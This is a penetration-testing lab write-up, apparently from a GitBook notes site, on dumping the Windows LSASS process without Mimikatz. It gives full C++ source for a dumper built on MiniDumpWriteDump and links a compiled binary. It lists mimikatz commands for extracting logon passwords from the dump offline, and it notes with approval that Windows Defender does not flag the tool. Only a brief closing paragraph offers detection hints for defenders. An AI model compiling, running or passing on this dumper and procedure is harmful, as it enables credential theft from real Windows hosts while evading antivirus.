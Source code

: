 # Dumping LSASS without Mimikatz: MiniDumpWriteDump == Bypassing AV Signatures

This lab explores how one could write a simple `lsass` process dumper for extracting the passwords it contains later on with mimikatz. **Possibly** without getting detected by some AV vendors.

{% hint style="info" %}
The below code uses a number of known Windows API calls that could still be flagged by some antivirus agent or EDR solution.
{% endhint %}

## Code

Let's go ahead and compile this C++ code:

{% code-tabs %}
{% code-tabs-item title="dumper.cpp" %}
```cpp
#include "stdafx.h"
#include <windows.h>
#include <DbgHelp.h>
#include <iostream>
#include <TlHelp32.h>
using namespace std;

int main() {
	DWORD lsassPID = 0;
	HANDLE lsassHandle = NULL; 
	HANDLE outFile = CreateFile(L"lsass.dmp", GENERIC_ALL, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
	HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
	PROCESSENTRY32 processEntry = {};
	processEntry.dwSize = sizeof(PROCESSENTRY32);
	LPCWSTR processName = L"";

	if (Process32First(snapshot, &processEntry)) {
		while (_wcsicmp(processName, L"lsass.exe") != 0) {
			Process32Next(snapshot, &processEntry);
			processName = processEntry.szExeFile;
			lsassPID = processEntry.th32ProcessID;
		}
		wcout << "[+] Got lsass.exe PID: " << lsassPID << endl;
	}
	
	lsassHandle = OpenProcess(PROCESS_ALL_ACCESS, 0, lsassPID);
	BOOL isDumped = MiniDumpWriteDump(lsassHandle, lsassPID, outFile, MiniDumpWithFullMemory, NULL, NULL, NULL);
	
	if (isDumped) {
		cout << "[+] lsass dumped successfully!" << endl;
	}
	
    return 0;
}
```
{% endcode-tabs-item %}
{% endcode-tabs %}

{% file src="../../.gitbook/assets/createminidump.exe" caption="CreateMiniDump.exe" %}

Do not forget to add `dbghelp.lib` as a dependency in the Linker &gt; Input settings for your C++ project if the compiler is giving you a hard time:

![](../../.gitbook/assets/screenshot-from-2019-03-23-17-01-44.png)

## Execution Demo

1. Execute CreateMiniDump.exe \(compiled file above\) or compile your own binary
2. Lsass.dmp gets dumped to the working directory
3. Take the lsass.dmp offline to your attacking machine
4. Open mimikatz and load in the dump file 
5. Dump passwords

{% code-tabs %}
{% code-tabs-item title="attacker" %}
```csharp
.\createminidump.exe
.\mimikatz.exe
sekurlsa::minidump c:\temp\lsass.dmp
sekurlsa::logonpasswords
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/peek-2019-03-23-22-14.gif)

### Why it's worth it?

See how Windows Defender on Windows 10 is flagging up mimikatz immediately... but allows running CreateMiniDump.exe? Good for us - we get lsass.exe dumped to `lsass.dmp`:

![](../../.gitbook/assets/peek-2019-03-23-21-25.gif)

..which then can be read in mimikatz offline:

![](../../.gitbook/assets/screenshot-from-2019-03-23-21-26-41.png)

## Observations

As mentioned earlier, the code above uses a native windows API call `MiniDumpWriteDump` to make a crash dump of a given process. If you are on the blue team and trying to write detections for these activities, look for processes loading in `dbghelp.dll` and calling `MiniDumpWriteDump` function:

![](../../.gitbook/assets/screenshot-from-2019-03-23-17-08-29.png)

## References

{% embed url="https://docs.microsoft.com/en-us/windows/desktop/api/minidumpapiset/nf-minidumpapiset-minidumpwritedump" %}

{% embed url="https://docs.microsoft.com/en-us/windows/desktop/api/tlhelp32/nf-tlhelp32-createtoolhelp32snapshot" %}


